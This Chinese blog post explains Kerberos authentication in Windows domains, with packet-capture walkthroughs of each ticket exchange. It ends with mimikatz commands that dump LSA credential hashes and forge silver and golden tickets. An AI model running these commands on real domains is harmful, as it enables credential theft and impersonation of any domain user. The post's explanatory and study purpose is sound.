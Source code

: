 ```yaml
---
layout:     post
title:    Kerberos理解
subtitle:   Kerberos认证机制理解
date:       2020-05-27
author:     hmoytx
header-img: img/bg_02.jpg
catalog: true
tags:
    - Kerberos
    - 内网
    - 域渗透
    
    
---
```

# Kerberos理解

## 简介
Windows体系下两种认证机制，NTLM与Kerberos。上一篇对NTLM认证机制进行了分析。这里主要对Kerberos认证机制进行理解。   
Kerberos是一种网络认证协议，其设计目标是通过密钥系统为客户机/服务器应用程序提供强大的认证服务。该认证过程的实现不依赖于主机操作系统的认证，无需基于主机地址的信任，不要求网络上所有主机的物理安全，并假定网络上传送的数据包可以被任意地读取、修改和插入数据。在以上情况下， Kerberos作为一种可信任的第三方认证服务，是通过传统的密码技术（如：共享密钥）执行认证服务的。   
### 特点
- 1.不怕中间人攻击   
- 2.不依赖主机认证   

## 主要角色
- 1. Client (废话)
- 2. Server  
- 3. KDC(Key Distribution Center) 在DC(Domain Controller)上  

常见名词解释：TGT(Ticket Granting Ticke):一种临时凭证用于获得票据。AD(account database):存储所有client的白名单，只有存在于白名单的client才能顺利申请到TGT。AS(Authentication Service):生成TGT的服务。TGS(Ticket Granting Service):票据生成服务。三者均是KDC的组成部分。   

## 简单流程分析
KDC中参与角色AD，AS，TGS，每次都是一个来回，所以整个过程就是3个来回。  
- 1.Client向KDC发起请求(请求包含用户名)，请求访问某服务，KDC接收到请求后，由AS完成最先的验证工作，通过AD中的白名单来判断，如果主机名存在于AD中，就返回TGT给Client。  
- 2.Client收到TGT后，再向Kerbroes发起请求，需要指定服务的权限，AS返回Ticket给Client。  
- 3.Client收到Ticket后去请求登录服务，服务会向Kerbroes核实这个ticket是否真实有效，有效则完成认证通过。   

### 数据包分析
分别是三个来回，我们一个一个来看，中间踩了几个坑，人傻掉了，本来想用mimikatz直接生成票据，看数据包，肯定是没有的，没有交互的。最后是用smb，中间加一个认证过程，抓到整个流程，每个请求拿出来简单看一下，每个字段没有深入去研究，只是粗略的看了一下，简单理解下整个认证过。  
根据上面的流程分析：  
- 1.第一步Client会向KDC发起请求(请求包含用户名)，请求访问某服务，KDC接收到请求后，由AS完成最先的验证工作，通过AD中的白名单来判断，如果主机名存在于AD中，就返回TGT给Client。体现在数据包中就是一来一回，一个请求一个响应。   

请求：AS_REQ  
![200528_1](/img/200528_asreq.png)      
可以看到，发送的请求中包含了一些身份信息（用户名），KDC收到后会去判断是否在AD白名单中。  
响应：AS_REP   
![200528_2](/img/200528_asrep.png)   
KDC通过对应请求的用户的NTLM hash对一个随机字符串进行加密，再使用krbtgt hash加密返回给client，这就是TGT。由于没有krbtgt hash，TGT是没有办法短时间破解的，这也确保了kerberos能在不安全的网络下工作。  

- 2.第二步Client收到TGT后，再向Kerbroes发起请求，需要指定服务的权限，AS返回Ticket给Client。同样体现在数据包中也是是一来一回，一个请求，一个响应。  

请求：TGS_REQ   
![200528_3](/img/200528_tgsreq.png)    
可以看到这里请求中包含了服务类型，因为我是想进行文件共享，所以这里的类型的cifs，其他类似的还有host，http等服务名，根据自己请求的服务不同，这里的类型也会有变化。  这里不知道为什么，可能是次数没对应上，所以前面的TGT内容和上面的响应中有出入，按理是一样的。    
响应：TGS_REP   
![200528_4](/img/200528_tgsrep.png)   
然后KDC中的TGS返回票据给client。  

- 3.第三步Client收到Ticket后去请求登录服务，服务会向Kerbroes核实这个ticket是否真实有效，有效则完成认证通过，这里有个坑，请求响应的过程不是单独的，是包含在对应请求的服务中，这里我是smb服务，请求响应都在smb的报文中。  


请求：AP_REQ   
![200528_5](/img/200528_apreq.png)   
可以看到AP_REQ是包含在smb的报文中。  
响应：AP_REP
![200528_6](/img/200528_aprep.png)   
返回响应，票据有效认证通过，继续就是进入正常的smb流程。   
![200528_7](/img/200528_smb.png)   

## 票据伪造
这里图没有多少，只是简单提及一下，带过理解即可。  
### 白银票据
需要的只是对应服务的NTLM hash。  

用mimikatz导出：  
```
mimikatz.exe "privilege::debug” "lsasdump::lsa /patch" "exit" > 1.txt
```   
![200528_9](/img/200528_krbtgt.png)  
然后：  
```
klist purge  //清除已有的票据   
mimikatz.exe
kerberos::golden /domain: domain name /sid: SID /target: target name /rc4:NTLM Hash /service: service type  /user: username /ptt
```

### 黄金票据  
需要krbtgt hash。  

其他都一样：  
```
kerberos::golden /domain: domain name /sid: SID /rc4: krbrgt Hash /user: username /ptt   
```
![200528_8](/img/200528_golden.png)   
成功以后如图所示。  






## 参考

[https://payloads.online/archivers/2018-11-30/1](https://payloads.online/archivers/2018-11-30/1)   
 














